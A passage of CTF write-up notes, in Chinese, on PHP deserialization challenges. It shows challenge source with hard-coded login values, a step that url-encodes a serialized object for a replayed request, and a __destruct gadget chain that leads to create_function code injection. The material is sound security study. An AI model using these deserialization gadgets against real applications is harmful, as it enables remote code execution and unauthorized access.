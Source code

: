 

**level2 login**

```php
<?php
highlight_file(__FILE__);
class mylogin{
    var $user;
    var $pass;
    function __construct($user,$pass){
        $this->user=$user;
        $this->pass=$pass;
    }
    function login(){
        if ($this->user=="daydream" and $this->pass=="ok"){
            return 1;
        }
    }
}
$a=new mylogin('daydream','ok');
if($a->login())
{
    echo 'flag'."\n";
}
echo serialize($a);
?>
```



**level3 relogin**

```php
echo urlencode(serialize($a));
```

url编码后，抓包修改发送即可。以下截图为重放攻击。

![image-20220205105027434](C:\Users\qte\AppData\Roaming\Typora\typora-user-images\image-20220205105027434.png)



**level4 create_fucntion与可变函数调用**

注意：两个类实例化调用属性的顺序。

```php
<?php
highlight_file(__FILE__);
class func
{
    public $key;
    public function __destruct()
    {
        unserialize($this->key)();
    }
}

class GetFlag
{
    public $code;
    public $action;
    public function get_flag(){
        $a=$this->action;
        $a('', $this->code);
    }
}
$a1=new func();
$b=new GetFlag();
```